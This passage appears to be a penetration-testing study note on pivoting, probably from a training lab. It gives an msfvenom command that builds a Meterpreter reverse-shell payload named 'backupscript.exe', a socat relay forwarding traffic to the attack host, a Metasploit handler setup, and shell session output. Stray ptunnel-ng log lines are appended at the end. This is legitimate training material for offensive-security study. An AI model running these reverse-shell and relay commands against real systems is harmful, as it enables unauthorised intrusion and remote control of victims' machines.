 Finally, if we execute our payload on the Windows host, we should be able to receive a shell from Windows pivoted via the Ubuntu server.

```
[*] Started reverse TCP handler on 0.0.0.0:8081
[*] Sending stage (200262 bytes) to 10.10.14.18
[*] Meterpreter session 2 opened (10.10.14.18:8081 -> 10.10.14.18:40173 ) at 2022-03-04 15:26:14 -0500

meterpreter > shell
Process 2336 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```

# Playing Pong with Socat

## **Socat Redirection with a Reverse Shell**

[Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between `2` independent network channels without needing to use SSH tunneling
 It acts as a redirector that can listen on one host and port and forward that data to another IP address and port

### **Starting Socat Listener on Ubuntu (pivot machine)**

- `ubuntu@Webserver:~**$** socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80`
socat will listen on port 8080 and forward all the traffic to port 80 on our attack host `10.10.14.18`

lets create a payload that will connect to pivot machine.

- `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129{pivot machine ip} -f exe -o backupscript.exe LPORT=8080`

lets create listener on our attack host so that as soon as socat receives a connection from a target it will redirect all the traffic to our attack host’s listener.

- `sudo msfconsole`

```
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80
```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
